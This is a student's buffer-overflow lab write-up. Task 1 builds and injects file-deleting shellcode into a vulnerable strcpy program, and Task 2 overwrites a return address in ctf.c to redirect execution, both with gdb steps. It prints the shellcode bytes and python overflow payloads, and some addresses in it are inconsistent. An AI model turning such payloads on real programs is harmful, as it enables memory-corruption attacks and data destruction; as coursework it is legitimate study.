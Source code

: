 *Name: Dinh Thi Thanh Vy*
*ID: 22110093*

# Lab 2: 
---
## Task 1: Inject code to delete file
**Source code: .asm file**

![alt text](./image/image-11.png)

**Run virtual environment by docker file**

![alt text](./image/image-12.png)

**Run file asm and get the shellcode**

Run: `nasm -g -f elf file_del.asm`; `ld -m elf_i386 -o file_del file_del.o`

Get shellcode: `for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`

![alt text](./image/image-13.png)

- We have the shellcode for file_del file as follows:

`\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00`

--> We remove \xdummyfile because it is not meaningful hexadecimal code

**Stack Frame:**

![alt text](./image/image-14.png)

- Shell code: `36 bytes`
- Return address: `4 bytes`
--> placement code: `32 bytes`

Here, we will use the vuln.c program to trigger a buffer overflow

**Connect to gdb**

![alt text](./image/image-15.png)

- Break in this position to see the change
`b *0x0804846b`

- Run the program by using command:

>r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00'+'a'*32+'\xff\xff\xff\xff')")

![alt text](./image/image-16.png)
--> We observe that the first 3 bytes still correspond to the shellcode, but starting from the 4th byte, which corresponds to the newline character 0x0a, the `strcpy` function terminates the string, causing the interruption.  

Observing the ASCII table, we need to avoid the following characters: 
- `0x00` because it marks the end of a string. 
- `0x09` because it's the tab character and would split the argument. 
- `0x0a` because it's the newline character and would also terminate the string.

Additionally, `0x0a` has a decimal value of 10, and upon reviewing the assembly code, we find:
![alt text](./image/image-17.png)

- Change file asm to this:
![alt text](./image/image-20.png)

- Get the shellcode again, we get
`\xeb\x14\x31\xc0\xb0\x08\x04\x02\xbb\x7b\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe7\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\`

![alt text](./image/image-19.png)

- For now, we will set the bytes of the address to 0xff. The last used byte of the shellcode will be 0x0f to  prevent string termination and to identify the position of the return frame.

>r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x**0f**'+'a'*32+'\xff\xff\xff\xff')")

![alt text](./image/image-22.png)

At this point, the program will likely report an error because it cannot find the address `0xffffffff`. 

- We need to set `0x0c` to `0x00` at the address `0xffffd66b` by using command: 
`set {unsigned char} 0xffffd66b = 0x00`

- we will replace the values of 0xffffffff with the address of the buffer, which is ffffd658, in the form of \x58\xd6\xff\xff. 

`set *0xffffd69c = 0xffffd658`

**The result will be:**

![alt text](./image/image-23.png)

**Continue runing the program to test out**

![alt text](./image/image-24.png)

- Dummyfile is still here. Look back at the assembly code!

`objdump -d file_del`

![alt text](./image/image-25.png)

As we can see, the dummyfile is **start from** `0xffffd672` **not from** `0x080407a` in C program!
- We need to set 0xffffd651 to point at that using command: 
`set *0xffffd661 = 0xffffd672`

![alt text](./image/image-26.png)

- continue running the program 

![alt text](./image/image-27.png)

-->Dummyfile is deleted. We've done.


## Task 2: Conduct attack on ctf.c

**Source code:**

![alt text](./image/image-30.png)

**Summarizing**

-->we need to find the address of the myfunc function and overwrite the Return Address of the vulnerable function's stack frame with this address:

`p=0x04081211; q=0x44644262`

`(buf[100] + ebp(4) + ReturnA(rewrite by the myfunc's address) + s + p + q)`

= `104(padding) + the myfunc's address + 4(padding) + p(value) + q(value)`

**Run the virtual environment by docker file**

![alt text](./image/image-32.png)

**Debug ctf.c and create ctf.out file:**

`gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2`

![alt text](./image/image-32.png)

**Get the address of the myfunc function by this command:**
`objdump -d ctf.out|grep myfunc`

![alt text](./image/image-33.png)

--> So we obtain the address of the myfunc funtion: `0804851b`

**Connect gdb and run by this command:**

`r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'a'*4+'\x11\x12\x04\x08'+'\x62\x42\x64\x44')")`

![alt text](./image/image-34.png)

--> It's not understand and stop running with the debug `0x61616161 in ??`

--> We need to set the exit function address in the Return Address of myfunc to return and continue running to get the value of variables p and q

**Get the exit's address**
`objdump -d ctf.out|grep exit`

![alt text](./image/image-35.png)

--> So we obtain the address of the exit: `080483e0`

**Connect gdb and run again by this command:**
`r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'\xe0\x83\x08\x04'+'\x11\x12\x04\x08'+'\x62\x42\x64\x44')")`

![alt text](./image/image-36.png)

--> We've done this lab

**Stack frame:**

![alt text](./image/image-29.png)